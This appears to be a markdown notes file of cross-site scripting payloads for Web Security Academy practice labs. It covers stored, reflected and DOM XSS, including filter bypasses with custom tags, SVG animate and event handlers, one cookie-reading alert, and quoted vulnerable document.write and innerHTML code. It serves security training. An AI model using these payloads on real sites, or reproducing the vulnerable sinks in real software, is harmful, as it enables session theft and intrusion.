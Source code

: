 # XSS Labs

## Stored XSS into HTML context with nothing encoded

* Payload
```html
<iframe src="https://your-lab-id.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'> 
```

## Reflected XSS into HTML context with all tags blocked except custom ones
* Payload
```html
<script>location = 'https://ac081f4d1fda91bec1dd414e00810097.web-security-academy.net/?search=%3Cbigb0ss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';</script> 
```

## Reflected XSS with event handlers and href attributes blocked

* Allowed tags
```
[INFO] Allowed tag: a
[INFO] Allowed tag: text
[INFO] Allowed tag: animate
[INFO] Allowed tag: image
[INFO] Allowed tag: svg
[INFO] Allowed tag: title
```

* Payload
```html
<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click Me</text></a>
```

## Reflected XSS with some SVG markup allowed

* Allowed tags
```
[INFO] Allowed event: text
[INFO] Allowed event: animatetransform
[INFO] Allowed event: image
[INFO] Allowed event: svg
[INFO] Allowed event: title
```

* Allowed events
```
[INFO] Allowed event: onbegin
```

* Payload
```html
<svg><animatetransform onbegin=alert(1) attributeName=transform>
```

## Reflected XSS into attribute with angle brackets HTML-encoded

* Payload
```html
" autofocus onfocus=alert(1) x="
```

## Stored XSS into anchor href attribute with double quotes HTML-encoded

* Payload (solution)
```html
xss_stored_href_attribute.py
```

## Reflected XSS in canonical link tag

* Payload
```html
/'accesskey='X'onclick='alert(1)

# press ALT + CTL + X to initiate the canonical link tag
```

## Reflected XSS into a JavaScript string with single quote and backslash escaped

* Payload
```html
# Terminating the existing JS with </script> and introducing an XSS payload

</script><img src=1 onerror=alert(1)>
```

## DOM XSS in document.write sink using source location.search
* Vulnerable Code
```html
<script>
    function trackSearch(query) {
        document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
    }
    var query = (new URLSearchParams(window.location.search)).get('search');
    if(query) {
        trackSearch(query);
    }
</script>
```

* Payload
```html
"><script>alert(1)</script>
```

## DOM XSS in document.write sink using source location.search inside a select element
* Vulnerable Code
```html
<script>
    var stores = ["London","Paris","Milan"];
    var store = (new URLSearchParams(window.location.search)).get('storeId');
    document.write('<select name="storeId">');
    if(store) {
        document.write('<option selected>'+store+'</option>');
    }
    for(var i=0;i<stores.length;i++) {
        if(stores[i] === store) {
            continue;
        }
        document.write('<option>'+stores[i]+'</option>');
    }
    document.write('</select>');
</script>
```

* Payload
```html
</option></select><script>alert(1)</script>
```

## DOM XSS in innerHTML sink using source location.search
* Vulnerable Code
```html
<script>
    function doSearchQuery(query) {
        document.getElementById('searchMessage').innerHTML = query;
    }
    var query = (new URLSearchParams(window.location.search)).get('search');
    if(query) {
        doSearchQuery(query);
    }
</script>
```

* Payload
```html
<img src=1 onerror=alert(1)>
```